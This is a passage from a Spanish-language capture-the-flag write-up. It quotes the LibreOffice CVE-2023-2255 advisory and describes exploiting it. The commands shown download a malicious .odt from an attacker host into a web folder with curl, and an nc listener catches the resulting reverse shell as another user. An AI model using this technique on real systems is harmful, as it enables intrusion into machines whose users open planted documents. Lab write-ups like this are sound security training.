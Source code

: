 ```bat
d-----         4/12/2023   4:30 PM                Oracle                                                               
d--h--         4/12/2023   4:08 PM                Uninstall Information                                                
d-----         2/14/2024   2:18 AM                VMware                                                               
d-----         4/17/2023   3:35 PM                Windows Defender                                                     
d-----         1/25/2024  12:20 PM                Windows Defender Advanced Threat Protection                          
d-----         1/25/2024  12:20 PM                Windows Mail                                                         
d-----         1/25/2024  12:20 PM                Windows Media Player                                                 
d-----          5/8/2021   2:35 AM                Windows NT                                                           
d-----          3/2/2022   7:58 PM                Windows Photo Viewer                                                 
d--hs-          5/8/2021   1:34 AM                Windows Sidebar                                                      
d--h--         1/18/2024  12:31 PM                WindowsApps                                                          
d-----          5/8/2021   1:34 AM                WindowsPowerShell                                                    
d-----         4/14/2023   3:23 PM                Wireshark                                                            
-a-hs-          5/8/2021   1:18 AM            174 desktop.ini  
```

> **CVE-2023-2255**
>
> Improper access control in editor components of The Document Foundation LibreOffice allowed an attacker to craft a document that would cause external links to be loaded without prompt. In the affected versions of LibreOffice documents that used "floating frames" linked to external files, would load the contents of those frames without prompting the user for permission to do so. This was inconsistent with the treatment of other linked content in LibreOffice. This issue affects: The Document Foundation LibreOffice 7.4 versions prior to 7.4.7; 7.5 versions prior to 7.5.3.

Viendo que la versión parece ser antigua indagando entre los archivos, podemos abusar del `CVE-2023-2255` para intentar obtener una consola en nombre de quien esté revisando estas aplicaciones de trabajo. Lo haremos con el usuario `web_account` ya que es quien tiene permisos para editar la carpeta.

```bat
PS C:\xampp\htdocs\internal\applications> curl -o application.odt http://10.10.14.150:8000/output.odt
```

```bat
❯ rlwrap nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.3 60638
Microsoft Windows [Version 10.0.20348.2322]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\LibreOffice 5\program>whoami
whoami
office\ppotts

```

